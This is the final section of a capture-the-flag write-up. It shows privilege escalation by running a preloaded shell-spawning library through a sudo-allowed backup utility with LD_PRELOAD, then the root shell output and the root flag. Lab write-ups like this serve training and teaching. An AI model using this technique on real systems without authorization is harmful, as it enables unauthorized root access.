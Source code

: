 ## Root

Using the article above I get things ready by creating a file called **test.c** that will execute a shell upon being ran and then compiling it:

![](images/road15.png)

I then run the following command and get root access:

`sudo LD_PRELOAD=/tmp/test /usr/bin/sky_backup_utility`

```
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/test /usr/bin/sky_backup_utility
root@sky:/tmp# whoami
root
root@sky:/tmp#
```

Over in **/root** we find our final flag:

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/road16.png)
